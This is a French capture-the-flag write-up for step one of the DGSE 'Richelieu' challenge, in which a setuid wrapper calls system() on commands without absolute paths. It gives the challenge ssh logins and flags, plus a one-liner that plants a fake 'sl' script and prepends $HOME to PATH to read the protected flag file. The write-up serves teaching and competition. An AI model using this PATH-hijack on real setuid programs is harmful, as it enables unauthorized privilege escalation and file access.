 # Challenge Richelieu de la DGSE - défi 1

https://www.challengecybersec.fr

## Pour se connecter à la machine du défi

```
ssh defi1.challengecybersec.fr -l defi1 -p 2222

mot de passe : DGSE{2f77c517b06f1cd1ce864f79f41f25ca8874413c8c1204f7ec9c6728c87f270a}
```

## Le challenge

```
defi1@AttrapeLeDrapeau:~$ ls -al
total 44
drwxr-xr-x 1 defi1         defi1         4096 May 10 10:50 .
drwxr-xr-x 1 root          root          4096 May 10 10:50 ..
-rw-r--r-- 1 defi1         defi1          220 May 15  2017 .bash_logout
-rw-r--r-- 1 defi1         defi1         3526 May 15  2017 .bashrc
-rw-r--r-- 1 defi1         defi1           32 May 10 10:50 .gdbinit
-rw-r--r-- 1 defi1         defi1          675 May 15  2017 .profile
-rw-r--r-- 1 defi1         defi1            7 May 10 10:50 .vimrc
-r-------- 1 defi1-drapeau defi1-drapeau  133 Apr 26 14:06 drapeau.txt
-r-sr-sr-x 1 defi1-drapeau defi1-drapeau 8752 May 10 10:50 prog.bin
```

Il y a un exécutable `prog.bin` _setuid_ et un fichier en lecture uniquement pour l'utilisateur `defi1-drapeau`.
Le but est donc d'utiliser ce programme pour accéder au fichier `drapeau.txt`.

C'est donc un _Capture The Flag_ (CTF) classique.

```
defi1@AttrapeLeDrapeau:~$ ./prog.bin
#################################################
##    Bienvenue dans ce lanceur (_wrapper_)    ##
#################################################
Ce logiciel vous permet de lancer ces programmes utiles simplement...
Menu :
   -> 1 : Affichage de la date et de l'heure actuelle
   -> 2 : Affichage du nombre de secondes écoulées depuis le 01/01/1970 (Epoch)
   -> 3 : Affichage du train
   -> 4 : Affichage du calendrier du mois en cours
```

## La vulnérabilité

`prog.bin` lance des binaires avec `system()`:
* choix 1: `date '+Nous sommes le %d/%m/%Y et il est %H:%M:%S'`
* choix 2: `date '+Nombre de secondes depuis Epoch : %s'`
* choix 3: `sl`
* choix 4: `cal`

Cela peut être observé avec [Ghidra](https://ghidra-sre.org), gdb, ou l'intuition.
Le chemin des binaires n'est pas absolu: la variable d'environnement `PATH` est donc utilisée.

### Note

Pour récupérer `./prog.bin` ou autre depuis la connexion ssh du challenge:

```bash
ssh defi1.challengecybersec.fr -l defi1 -p 2222 > prog.hex
DGSE{2f77c517b06f1cd1ce864f79f41f25ca8874413c8c1204f7ec9c6728c87f270a}
hexdump -ve '16/1 "%02x " "\n"' prog.bin
exit
grep -E "^([0-9a-z]{2} )+" prog.hex | xxd -r -p > prog.bin
chmod a+x prog.bin
```

## L'attaque

Il suffit d'altérer le `PATH` and ajoutant un programme `sl` (par exemple) avant `/usr/bin`. Ce programme sera exécuté avec les privilèges de l'utilisateur `defi1-drapeau` et permettra de consulter le fichier `drapeau.txt`.
```bash
echo "cat drapeau.txt" > sl; chmod a+x sl; PATH=$HOME:$PATH ; echo 3 | ./prog.bin
```

## Le drapeau

```
Suite du challenge Richelieu :

ssh defi2.challengecybersec.fr -l defi2 -p 2222

mot de passe : DGSE{H#M?W)el{0YZ-)77/C#ogrp}k4&EbP}
```

[Suite...](../defi2/README.md)

---
*rene-d 26 mai 2019*

